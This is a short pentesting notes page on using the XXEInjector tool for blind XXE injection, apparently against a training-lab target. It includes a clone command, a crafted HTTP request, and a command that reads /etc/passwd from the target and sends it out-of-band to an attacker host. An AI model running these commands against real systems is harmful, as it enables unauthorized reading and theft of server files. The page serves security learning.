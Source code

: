 ```yaml
---
title: XXEInjector
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - xxe
  - tool
  - webpentesting
---
```

# XXEInjector - XXE injection easy

See [XEE XML External Entity attacks](webexploitation/xml-external-entity-xee.md)

## Installation


```bash
git clone https://github.com/enjoiz/XXEinjector.git
```

## Basic usage

Once cloned, we will save our potentially vulnerable request into a file `xxe.req`. We will place the word `XXEINJECT` as a position locator for the tool:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.210.196
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Now we can run the tool:

```bash
ruby XXEinjector.rb --host=$IPAttacker --httpport=$port --file=$filename --path=/etc/passwd --oob=http --phpfilter

# Example:
ruby XXEinjector.rb --host=10.10.14.207 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

And see the logs under the new created Log folder within the tool:

```bash
cat Logs/10.129.210.196/etc/passwd.log 
```
